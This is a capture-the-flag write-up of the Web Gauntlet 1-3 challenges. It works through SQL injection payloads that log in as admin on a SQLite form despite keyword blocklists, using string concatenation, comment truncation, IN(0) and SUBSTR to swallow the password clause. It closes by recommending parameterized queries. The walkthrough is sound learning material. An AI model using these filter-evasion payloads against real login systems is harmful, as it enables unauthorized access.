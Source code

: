 # Web Gauntlet (1-3)

So this time we have a login form, we want to login as `admin` without knowing the password.

And it has a filter - your input cannot contain these words.

Example for Web Gauntlet 1 's Round 5 filter:

`Round5: or and = like > < -- union admin`

Round1 only contains `or` so we need to learn more tricks to by pass it.

All the filters:

```text
Round1: or
Round2: or and like = --
# RIP, no more --, luckily we still have /* in SQLite...
Round3: or and = like > < --
# From source code it bans spaces are well...
Round4: or and = like > < -- admin
Round5: or and = like > < -- union admin
```

The SQL statement

```SQL
SELECT * FROM users WHERE username='(user name)' AND password='(password)'
```

My input as username to pass all rounds: `adm'||'in'/*`

## The very hard mode

Try to increase the difficult (or follow the author's original intent) by adding these constraints to myself.

Round 2: No like, = , --, ; , and /**/ too (Totally no comment, no ; to skip statement)
And try to use the newly banned syntax from Round 3: > <

Round 3-4: Use union

Round 5: No /* (really do it the hard way)

### Solution

Round 2: username = admin, password = bocchi'<>'

SQL statement:

```SQL
SELECT * FROM users WHERE username='admin' AND password='bocchi'<>''

-- <> is not equal for string, we compare empty string != some string
```

Round 3: username = admin, password = 'IN(0)||'
Round 4-5: username = ad'||'min, same password as above

SQL statement:

```SQL
-- password='whatevervalue' is 0
SELECT * FROM users WHERE username='admin' AND password=''IN(0)||''

-- don't know why False doesn't work in CTF but works in the online SQLite server I found
SELECT * FROM users WHERE username='admin' AND password=''IN(False)||''

```

The trick is to concat an empty string to consume the last `'` and make the password part true.

This works for all Round 3-5 and Web Gauntlet 2,3. (Of course, the admin needs to be concat'ed)

If `UNION` needs to be used, I think `/**/` cannot be disabled since there must be spaces in UNION statements...

## Web Gauntlet 2,3

Same old SQL statement as 1.

Filter this time: `or and true false union like = > < ; -- /* */ admin (but space is allowed)`

### My solution for 2

Original SQL statement

```SQL
SELECT username, password FROM users WHERE username='(user name)' AND password='(password)'

-- we have to add the user name and password. The quotes cannot be deleted
```

The statement after injection

```SQL
SELECT username, password FROM users WHERE username='ad'||SUBSTR('min'||' AND password=',1,3)||''
```

username = `ad'||SUBSTR('min'||`
pw = `,1,3)||'`

This solution avoids the filter of `admin`. Then remove the `AND` part by turning the it to part of the string. This is the same as `'ad'||'min'||'(nothing)'`

### Solution for 3

This time they wants less than 25 letters in both username and password ... I have to save some spaces by using the 'a' in p'a'ssword provided from the statement. ('d' works too)

```SQL
SELECT username, password FROM users WHERE username=''||SUBSTR(' AND password=',7,1)||'dmin'  -- use the a from p'a'ssword

SELECT username, password FROM users WHERE username='ad'||SUBSTR(' AND password=',0,0)||'min' -- Skip all the password statement with SUBSTR('str',0,0). This seems better, not dependent on the content of statement
```

This works: (use the a in statement)
username = `'||SUBSTR(`
pw = `,7,1)||'dmin`

This works too:
username = `ad'||SUBSTR(`
pw = `,0,0)||'min`

## Some other ways to solve

I heard that adding NULL bytes to the query works too as the lower level string processor will skip everything after reading NULL byte (0x00). (Nice good-old C string)

## Lesson learnt

Don't try to manually filter for SQL injection - use parametized input instead.

I suppose if injection works, we probably don't need to do all these hard ways to by-pass these guards...right?

Injection means the code allows users to run arbitrary SQL statements by coding all those `+` to join strings or string formatting like `"SELECT user from ... {} ...".format(user_name, password)`
